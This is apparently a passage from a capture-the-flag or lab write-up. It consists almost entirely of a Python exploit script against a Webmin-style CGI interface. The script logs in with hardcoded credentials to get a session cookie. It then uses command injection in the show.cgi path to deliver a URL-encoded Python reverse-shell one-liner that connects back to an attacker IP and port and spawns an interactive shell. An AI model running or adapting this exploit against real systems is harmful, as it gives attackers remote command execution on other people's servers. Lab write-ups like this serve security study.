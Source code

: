 Using python to get rev shell.

{% code overflow="wrap" lineNumbers="true" %}
````python
```python
import requests
import string
import secrets
from urllib.parse import quote

lhost = "10.18.88.214"
lport = "5555"
rhost = "10.10.69.153"

data = {'page' : "/", 'user' : "user1", 'pass' : "1user"}
url = f"http://{rhost}/session_login.cgi"

# POST Request.
r = requests.post(url, data=data, cookies={"testing":"1"}, verify=False, 
allow_redirects=False)

if r.status_code == 302 and r.cookies["sid"] != None:
  print("[+] Login Successful, executing payload..")
else:
  print("[-] Failed to login !")

sid = r.cookies["sid"]

'''
other ways to extract the cookie.
c = r.cookies["sid"]
s = r.cookies['Set-Cookie'].split('=')[1].split(";")[0].strip()
'''

# random invalid char generator function.
def rand():
  alphaNum = string.ascii_letters + string.digits
  randChar = ''.join(secrets.choice(alphaNum) for i in range(5))
  return randChar

# python reverse shell payload oneliner.
def payload():
  payl= "python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\""+ lhost + "\"," + lport + "));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"])\'"
  encodedText = quote(payl)
  return encodedText

# exploit url.
exp = f"http://10.10.69.153/file/show.cgi/bin/{rand()}|{payload()}|"

# delivering payload.
req = requests.post(exp, cookies={"sid":sid}, verify=False, allow_redirects=False)
```

We get shell.
````
{% endcode %}







